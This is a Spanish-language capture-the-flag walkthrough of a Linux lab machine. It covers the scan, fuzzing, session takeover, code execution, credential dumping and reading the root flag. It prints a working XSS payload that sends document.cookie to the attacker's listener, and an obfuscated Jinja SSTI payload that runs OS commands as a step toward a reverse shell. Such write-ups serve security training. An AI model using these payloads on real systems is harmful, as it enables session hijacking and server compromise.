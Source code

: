 #Linux #medium #tecnicas 
### Ping
```python
ping -c 1 10.10.11.12
PING 10.10.11.12 (10.10.11.12) 56(84) bytes of data.
64 bytes from 10.10.11.12: icmp_seq=1 ttl=63 time=71.4 ms

--- 10.10.11.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 71.439/71.439/71.439/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 5000 -Pn 10.10.11.12 -oN Scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 22:36 EDT
Nmap scan report for 10.10.11.12
Host is up (0.071s latency).
Not shown: 65506 closed tcp ports (reset), 27 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```

### Enumeración del puerto 80 (http)

![[Pasted image 20240408224546.png]]

![[Pasted image 20240408224608.png]]

### Fuzzing con ffuz
el dominio `/quote` no esta en los directorios de la pagina asi que vamos a investigar  
![[Pasted image 20240408224309.png]]

`quote`
![[Pasted image 20240408224935.png]]

### BurpSuite
vamos a realizar una petición y la interceptamos con burpsuite
![[Pasted image 20240408225150.png]]

`Service`
tenemos 3 service que se estan enviando al servidor. vamos a intentar validarlos enviando una petición a un servidor que tendremos a la escucha
```python
<img+src='http://10.10.14.27/test.png'>
```
![[Pasted image 20240408231842.png]]

### Python3 server
obtenemos la petición que hemos realizado por lo cual podemos decir que esta web es vulnerable a `XSS`
![[Pasted image 20240408232124.png]]

### Cookie
vamos a usar este payload para capturar la cookie de session. 
```python
<img src=x onerror=this.src='http://10.10.14.27/?c='+document.cookie> # URLencode
```
![[Pasted image 20240408234641.png]]

`cookie`
![[Pasted image 20240408234800.png]]

agregamos la cookie en el `cookie-editor`
![[cookie.png]]

### dashboad

![[Pasted image 20240408235954.png]]

`Generate Invoice`
![[Pasted image 20240408235845.png]]

`codigo ID 0255314324`
obtenemos un ID Invoice 
![[Pasted image 20240408235903.png]]

`Generator QR`
ingresamos el ID que hemos obtenido anteriormente
![[Pasted image 20240409000254.png]]

### SSTI (Server-Side Template Injection)
realizamos una prueba y es posible ver el resultado dentro del nombre de archivo generado para el código QR. Eso confirma que se está produciendo SSTI
![[Pasted image 20240409001851.png]]

`Burpsuite`
interceptamos la petición con burpsuite y podemos confirmar que se esta ejecutando correctamente el resultado de {{7 * 7}} a partir de aqui solo necesitamos conseguir hacer Bypass para poder ejecutar codigo
![[Pasted image 20240409002315.png]]

### Bypass SSTI 
usando estos parametros podemos hacer un bypass del servicio que esta corriendo por detras el cual hemos logrado ejecutar con éxito el comando id usaremos esto para ejecutar una reverse shell
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
![[Pasted image 20240409003615.png]]

### reverse shell
usamos una reverse shell u la URL encodeamos 
![[Pasted image 20240409004321.png]]

### Netcat 
estaremos a la escucha con Netcat por el puerto que hemos especificado y obtenemos la shell
![[Pasted image 20240409004434.png]]

`www-data`

![[Pasted image 20240409011025.png]]
### database
podemos ver las credenciales de usuario
![[Pasted image 20240409005450.png]]

### mysql
podemos listar la base de datos
![[Pasted image 20240409010111.png]]

`mysql`
listando la tabla de usuarios podemos listar credenciales en texto plano
![[Pasted image 20240409010333.png]]

### Crackstation
tenemos la contraseña de consuela
![[Pasted image 20240409010748.png]]

### ssh
tenemos conexión via ssh
![[Pasted image 20240409010946.png]]

### Escalada de privilegios
con un poco de pensamiento lateral podemos leer la root sin escalar privilegios
![[Pasted image 20240409011222.png]]

con este comando vamos a agregar el archivo `root.txt` como un attachment al archivo pdf que ya existe en la maquina y luego lo descargamos para analizarlo en local
![[Pasted image 20240409011943.png]]

### pdfdetach 
de esta manera podemos extraer los archivos que se han agregado al pdf y efectivamente tenemos la root
![[Pasted image 20240409014202.png]]

### id_rsa
aplicando la misma metodologia 
![[Pasted image 20240409020633.png]]

### Escalada
![[Pasted image 20240409020530.png]]
### WE ARE ROOT